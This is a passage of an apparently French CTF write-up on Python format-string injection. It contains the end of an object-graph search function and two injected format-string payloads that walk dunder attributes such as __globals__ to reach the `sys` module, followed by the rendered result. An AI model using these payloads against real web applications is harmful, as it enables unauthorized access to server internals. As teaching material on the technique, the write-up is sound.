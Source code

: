 ```python
            if obj in visited_clss:
                return
            visited_clss.append(obj)
            # print(obj)

        else:
            if obj in visited_objs:
                return
            visited_objs.append(obj)

        # attributes
        for name in dir(obj):
            if name.startswith('__') and name.endswith('__'):
                if name not in  ('__globals__', '__class__', '__self__',
                                 '__weakref__', '__objclass__', '__module__'):
                    continue
            attr = getattr(obj, name)
            yield from visit(attr, '{}.{}'.format(path, name), depth + 1)

        # dict values
        if hasattr(obj, 'items') and callable(obj.items):
            try:
                for k, v in obj.items():
                    yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)
            except:
                pass

        # items
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)

    yield from visit(obj)
```

On peut accéder au module `sys` de ces différentes manières :  

-
  ```python
  {ua.__class__.__init__.__globals__[t].sys}
  ```

-
    ```python
    {ua.__class__.to_header.__globals__['__loader__'].__class__.__weakref__.__objclass__.get_data.__globals__['__loader__'].create_module.__globals__['__builtins__']['__build_css__'].__self__.copyright.__class__._Printer__setup.__globals__['sys']}
    ```  

*Résultat* :  

```html
<div id="bubble">Hello <module 'sys' (built-in)></div>
```


[//]: <> (Wrote By Vozec 27/04/2023)